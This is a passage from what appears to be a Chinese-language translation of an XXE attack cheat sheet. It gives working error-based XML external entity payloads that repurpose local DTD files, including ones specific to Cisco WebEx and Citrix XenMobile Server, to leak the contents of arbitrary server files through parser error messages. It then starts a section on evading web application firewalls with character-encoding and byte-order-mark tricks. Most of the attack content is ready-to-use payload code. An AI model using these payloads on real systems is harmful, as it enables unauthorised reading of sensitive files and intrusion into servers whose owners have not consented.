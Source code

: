 假设像之前的有效负载返回了详细的错误信息。你可以开始指向本地DTD。找到一个DTD后，你可以提交如下有效负载。文件的内容将被放置在错误消息中。

```xml
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">

    <!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///REPLACE_WITH_FILENAME_TO_READ">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<root></root>
```

### Cisco WebEx

```
<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd">
<!ENTITY % url.attribute.set '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
```

### Citrix XenMobile Server

```
<!ENTITY % local_dtd SYSTEM "jar:file:///opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd">
<!ENTITY % Body '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
```

[使用不同DTD的其他有效负载](https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md)

## WAF绕过

### 通过字符编码绕过

XML解析器使用4种方法来检测编码：

* HTTP内容类型：`Content-Type: text/xml; charset=utf-8`
* 读取字节顺序标记（BOM）
* 读取文档的第一个符号
  * UTF-8 (3C 3F 78 6D)
  * UTF-16BE (00 3C 00 3F)
  * UTF-16LE (3C 00 3F 00 78 00 6D 00 6C)
* XML声明：`<?xml version="1.0" encoding="UTF-8"?>`

| 编码     | BOM      | 示例                                |              |
| -------- | -------- | ----------------------------------- | ------------ |
| UTF-8    | EF BB BF | EF BB BF 3C 3F 78 6D 6C             | ...<?xml     |
| UTF-16BE | FE FF    | FE FF 00 3C 00 3F 00 78 00 6D 00 6C | ...<.?.x.m.l |
| UTF-16LE | FF FE    | FF FE 3C 00 3F 00 78 00 6D 00 6C 00 | ..<.?.x.m.l. |
